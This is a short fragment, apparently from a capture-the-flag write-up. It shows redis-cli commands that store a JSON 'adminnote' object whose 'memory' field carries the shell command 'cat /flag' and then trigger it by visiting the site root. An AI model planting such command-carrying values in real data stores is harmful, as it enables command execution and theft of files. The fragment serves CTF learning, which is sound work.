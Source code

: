 ```python
    run 
    > redis-cli 
       > auth key
       > set key '{"notes":[{"Type":"adminnote","Data":{"version":"172.18.2:6379","who":"wonderkun","memory":"cat /flag"}}]}'

    visit /
    '''
```

